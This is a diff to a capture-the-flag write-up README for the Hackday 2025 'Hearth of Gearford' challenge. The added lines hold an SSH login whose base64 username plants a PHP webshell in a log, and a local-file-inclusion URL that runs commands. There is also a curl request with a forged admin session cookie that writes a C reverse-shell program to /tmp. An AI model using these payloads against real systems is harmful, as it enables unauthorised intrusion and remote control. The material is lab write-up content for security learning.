

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Hackday2025_finals/TheHearthOfGearford/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

`````diff
--- a/Hackday2025_finals/TheHearthOfGearford/README.md
+++ b/Hackday2025_finals/TheHearthOfGearford/README.md
@@ -86,8 +86,18 @@ pub fn verify(expected: &[u8], received: &[u8]) -> bool {
 - Execute commands and validate that the input is welled printed into the ad hoc section
 
 ````bash
-http://ip/HiddenAdministrativeControlPanel.php?load=php%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3Duserloginfail.txt&cmd=id
+ssh V0VCU0hFTExPSyA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4=@localhost
+#and then curl
+#http://ip/HiddenAdministrativeControlPanel.php?load=php%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3Duserloginfail.txt&cmd=id
 ````
 <p align="center">
 <img src="Screenshots/S10.png" style="width: 50%">
 </p>
+
+<h2> Step 3: Launch a revshell to get a stable prompt and perform a privesc to read the flag </h2>
+
+<p align="justify"> Once the webshell was deployed and commands could have been ran on the machine, the final step was to laucnh a revshell to get a stable prompt to finally escalate privileges an read the flag. To do so, the solution was to user libc because netcat was missing and it was a docker so no /dev/tcp folder too. To get a revshell </p>
+
+````bash
+curl -b "session_token=eyd1c2VybmFtZSc6J2d1ZXN0JywgJ3JvbGUnOidhZG1pbid9./3b1GSdZghQ6flLq0yEjz5fDtnXbRcBItrm20FCyAoI=" http://localhost/HiddenAdministrativeControlPanel.php?load=php%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3Duserloginfail.txt&cmd=echo%20%27%23include%20%3Cstdio.h%3E%0A%23include%20%3Csys%2Fsocket.h%3E%0A%23include%20%3Cnetinet%2Fin.h%3E%0A%23include%20%3Carpa%2Finet.h%3E%0A%23include%20%3Cstring.h%3E%0A%23include%20%3Cunistd.h%3E%0A%0A%23define%20IP%20%22127.0.0.1%22%0A%23define%20PORT%2014456%0A%0Aint%20main%28%29%0A%7B%0A%20%20%20%20int%20sockfd%20%3D%20socket%28AF_INET%2C%20SOCK_STREAM%2C%200%29%3B%0A%0A%20%20%20%20struct%20sockaddr_in%20server_addr%3B%0A%20%20%20%20server_addr.sin_family%20%3D%20AF_INET%3B%0A%20%20%20%20server_addr.sin_port%20%3D%20htons%28PORT%29%3B%0A%0A%20%20%20%20inet_pton%28AF_INET%2C%20IP%2C%20%26%28server_addr.sin_addr%29%29%3B%0A%0A%20%20%20%20connect%28sockfd%2C%20%28struct%20sockaddr%20%2A%29%26server_addr%2C%20sizeof%28server_addr%29%29%3B%0A%0A%20%20%20%20dup2%28sockfd%2C%200%29%3B%0A%20%20%20%20dup2%28sockfd%2C%201%29%3B%0A%20%20%20%20dup2%28sockfd%2C%202%29%3B%0A%0A%20%20%20%20execve%28%22%2Fbin%2Fsh%22%2C%200%2C%200%29%3B%0A%0A%20%20%20%20close%28sockfd%29%3B%0A%0A%20%20%20%20return%200%3B%0A%7D%27%20%3E%20%2Ftmp%2Frev2.c%09
+````
`````
